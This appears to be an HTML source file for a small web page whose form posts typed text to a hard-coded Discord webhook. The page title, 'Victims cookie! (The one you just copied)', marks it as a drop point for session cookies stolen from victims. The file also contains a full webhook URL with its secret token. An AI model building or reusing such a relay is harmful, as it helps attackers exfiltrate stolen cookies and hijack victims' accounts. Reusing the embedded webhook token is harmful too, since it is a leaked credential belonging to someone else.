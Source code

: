 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Victims cookie! (The one you just copied)</title>
</head>
<body>
    <h1>Send a message to Discord</h1>

    <!-- Form with a text input -->
    <form id="webhookForm">
        <input type="text" id="messageInput" placeholder="Enter your message" required>
        <button type="submit">Send</button>
    </form>

    <!-- Success message -->
    <p id="successMessage" style="display:none; color:green;">Message sent successfully!</p>
    
    <!-- Error message -->
    <p id="errorMessage" style="display:none; color:red;">There was an error sending the message.</p>

    <script>
        // Your Discord webhook URL
        const webhookUrl = "https://discord.com/api/webhooks/1287147736067735697/JgfA0dprmNdMvRIyvS5F9Sy9YHFTyL44zELr-3zZ-Mhf-_Twiis-p5KOSbycTN0M01Kb";

        // Get the form and message input
        const form = document.getElementById('webhookForm');
        const messageInput = document.getElementById('messageInput');
        const successMessage = document.getElementById('successMessage');
        const errorMessage = document.getElementById('errorMessage');

        form.addEventListener('submit', function(event) {
            event.preventDefault();

            // Get the value of the input field
            const message = messageInput.value;

            // Create the payload for Discord webhook
            const payload = JSON.stringify({
                content: message
            });

            // Send the data to the Discord webhook
            fetch(webhookUrl, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: payload,
            })
            .then(response => {
                if (response.ok) {
                    // Show success message and clear input
                    successMessage.style.display = 'block';
                    errorMessage.style.display = 'none';
                    messageInput.value = '';
                } else {
                    throw new Error('Failed to send message');
                }
            })
            .catch((error) => {
                // Show error message
                errorMessage.style.display = 'block';
                successMessage.style.display = 'none';
            });
        });
    </script>
</body>
</html>
